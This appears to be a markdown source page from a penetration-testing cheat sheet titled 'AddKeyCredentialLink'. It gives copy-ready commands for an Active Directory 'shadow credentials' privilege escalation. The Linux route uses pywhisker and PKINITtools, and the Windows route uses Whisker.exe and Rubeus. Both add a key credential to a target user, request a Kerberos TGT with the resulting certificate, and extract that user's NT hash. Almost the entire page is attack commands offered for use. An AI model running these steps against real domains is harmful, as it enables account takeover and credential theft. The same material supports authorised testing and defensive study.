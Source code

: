```yaml
---
title: "AddKeyCredentialLink"
date: 2024-7-31
tags: ["AddKeyCredentialLink", "active driectory", "ad", "Windows", "shadow credentials", "whisker", "pywhisker"]
---
```


### Privesc #1: Shadow credentials

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 0. Pre-check \[optional\]

<div>

```console
python3 pywhisker.py --action list -d <DOMAIN> -u <CURRENT_USER> -p '<PASSWORD>' --dc-ip <DC> -t <TARGET_USER> --use-ldaps
```

</div>

#### 1. Add shadow credentials

<div>

```console
python3 pywhisker.py --action add -d <DOMAIN> -u <CURRENT_USER> -p '<PASSWORD>' --dc-ip <DC> -t <TARGET_USER> --use-ldaps
```

</div>

<br>

<div>

```console
# Fix module 'OpenSSL.crypto' has no attribute 'PKCS12Type'
pip3 install -I pyopenssl==24.0.0
```

</div>

#### 2. Request TGT using PFX file

<div>

```console
sudo ntpdate -s <DC> && python3 gettgtpkinit.py -cert-pfx <PFX_FILE> -pfx-pass '<PFX_PASSWORD>' '<DOMAIN>/<USERNAME>' <USERNAME>.ccache -dc-ip <DC>
```

</div>

#### 3. Import ticket

<div>

```console
export KRB5CCNAME=<USERNAME>.ccache
```

</div>

#### 4. Get NT hash

<div>

```console
python3 getnthash.py '<DOMAIN>/<USERNAME>' -key <AS_REP_ENC_KEY>
```

</div>

<small>*Ref: [pywhisker](https://github.com/ShutdownRepo/pywhisker)*</small>
<br>
<small>*Ref: [PKINITtools](https://github.com/dirkjanm/PKINITtools)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 0. Pre-check \[optional\]

<div>

```console
.\Whisker.exe list /domain:<DOMAIN> /target:<TARGET_USER> /dc:<DC>
```

</div>

#### 1. Add shadow credentials

<div>

```console
.\Whisker.exe add /domain:<DOMAIN> /target:<TARGET_USER> /dc:<DC> /password:'<PASSWORD>'
```

</div>

#### 2. Request TGT using PFX file and get NT hash

<div>

```console
.\rubeus.exe asktgt /user:<TARGET_USER> /certificate:<BASE64_CERT> /password:'<PASSWORD>' /domain:<DOMAIN> /dc:<DC> /getcredentials /show
```

</div>

<small>*Ref: [Whisker.exe](https://github.com/eladshamir/Whisker)*</small>

{{< /tabcontent >}}

<br>
